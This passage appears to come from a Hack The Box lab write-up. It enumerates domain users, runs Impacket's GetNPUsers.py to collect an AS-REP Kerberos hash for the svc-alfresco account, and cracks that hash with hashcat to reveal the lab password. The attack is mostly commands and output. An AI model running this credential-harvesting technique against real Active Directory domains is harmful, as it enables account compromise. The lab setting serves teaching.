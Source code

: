 

    root@kali# cat users
    Administrator
    andy
    lucinda
    mark
    santi
    sebastien
    svc-alfresco



Now I can use the Impacket tool `GetNPUsers.py` to try to get a hash for
each user, and I find one for the svc-alfresco account:



    root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

    [*] Getting TGT for Administrator
    [-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for andy
    [-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for lucinda
    [-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for mark
    [-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for santi
    [-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for sebastien
    [-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB:c213afe360b7bcbf08a522dcb423566c$d849f59924ba2b5402b66ee1ef332c2c827c6a5f972c21ff329d7c3f084c8bc30b3f9a72ec9db43cba7fc47acf0b8e14c173b9ce692784b47ae494a4174851ae3fcbff6f839c833d3740b0e349f586cdb2a3273226d183f2d8c5586c25ad350617213ed0a61df199b0d84256f953f5cfff19874beb2cd0b3acfa837b1f33d0a1fc162969ba335d1870b33eea88b510bbab97ab3fec9013e33e4b13ed5c7f743e8e74eb3159a6c4cd967f2f5c6dd30ec590f63d9cc354598ec082c02fd0531fafcaaa5226cbf57bfe70d744fb543486ac2d60b05b7db29f482355a98aa65dff2f



### Crack Hash

Now I can use `hashcat` to break the hash:



    root@kali# hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$svc-alfresco@HTB:37a6233a6b2606aa39b55bff58654d5f$87335c1c890ae91dbd9a254a8ae27c06348f19754935f74473e7a41791ae703b95ed09580cc7b3ab80e1037ca98a52f7d6abd8732b2efbd7aae938badc90c5873af05eadf8d5d124a964adfb35d894c0e3b48$
    5f8a8b31f369d86225d3d53250c63b7220ce699efdda2c7d77598b6286b7ed1086dda0a19a21ef7881ba2b249a022adf9dc846785008408413e71ae008caf00fabbfa872c8657dc3ac82b4148563ca910ae72b8ac30bcea512fb94d78734f38ae7be1b73f8bae0bbfb49e6d61dc9d06d055004
    d29e7484cf0991953a4936c572df9d92e2ef86b5282877d07c38:s3rvice
    ...[snip]...
